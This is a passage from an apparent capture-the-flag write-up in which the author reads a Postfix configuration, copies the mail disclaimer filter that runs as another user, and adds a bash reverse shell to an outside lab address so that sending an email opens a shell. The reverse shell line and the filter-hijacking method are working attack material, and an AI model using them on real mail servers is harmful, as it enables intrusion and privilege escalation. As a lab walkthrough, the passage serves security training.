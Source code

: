 In the `/etc/postfix/master.cf` we can see that this disclaimer script get's executed by john when sending an email.

```
kyle@writer:~$ cat /etc/postfix/master.cf
#
# Postfix master process configuration file.  For details on the format
# of the file, see the master(5) manual page (command: "man 5 master" or
# on-line: http://www.postfix.org/master.5.html).
...[snip]...
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Looking at the disclaimer addresses `/etc/postfix/disclaimer_addresses` we see who we have to write an email as.

```
kyle@writer:~$ cp /etc/postfix/disclaimer .
kyle@writer:~$ vi disclaimer
```

First we need to modify the current disclaimer script to contain a reverse shell.

`disclaimer`
```bash
#!/bin/sh
# Localize these.
bash -c 'bash -i >& /dev/tcp/10.10.14.22/7575 0>&1'
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```
